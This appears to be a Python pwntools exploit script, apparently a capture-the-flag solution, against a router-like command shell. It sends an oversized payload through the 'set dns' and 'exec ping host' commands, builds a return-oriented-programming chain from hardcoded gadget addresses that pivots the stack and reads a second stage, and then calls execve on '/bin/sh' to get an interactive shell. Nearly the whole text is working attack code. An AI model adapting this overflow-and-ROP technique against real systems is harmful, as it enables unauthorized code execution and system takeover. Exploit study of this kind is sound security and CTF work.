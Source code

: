 ```py
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

def exec_cmd(cmd: bytes) -> None:
	p.sendlineafter(b'#', cmd)

g_syscall    = 0x0000000000471CD1
g_pop_rax    = 0x000000000042cfae    # before rbx
g_pop_rbx    = 0x0000000000461dc1    #
g_pop_rcx    = 0x0000000000433347    # before ax, bx
g_pop_rbp    = 0x0000000000401030    #

g_pop_rdi    = 0x00000000004c23dd
g_pop_rdx    = 0x00000000004a55a5
sh           = 0x000000000055171d
syscall_read = 0x000000000048DB60
free_stack   = 0x000000c000000000 + 0x300000
leave_ret    = 0x00000000004a721a

gadget1 = b''
gadget1 += p64(g_pop_rbp) + p64(free_stack)
gadget1 += p64(g_pop_rcx) + p64(0x200)       # before ax, bx
gadget1 += p64(g_pop_rbx) + p64(free_stack)
gadget1 += p64(syscall_read)
gadget1 += p64(leave_ret)[:-2]

overflow = b'...............................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................11rbp11.'

exec_cmd(b'cert 4ceb539da109caf8eea7')
exec_cmd(b'configure')
exec_cmd(b'set dns ' + overflow + gadget1 + b' 172.22.22.22')
exec_cmd(b'exec ping host ' + overflow + gadget1)

gadget2 = b''
gadget2 += b'/bin/sh\x00'
gadget2 += p64(g_pop_rdi) + p64(free_stack)
gadget2 += p64(g_pop_rax) + p64(0x3b)
gadget2 += p64(g_syscall)

p.sendlineafter(b'DNS lookup failed for', gadget2)
p.interactive()
```
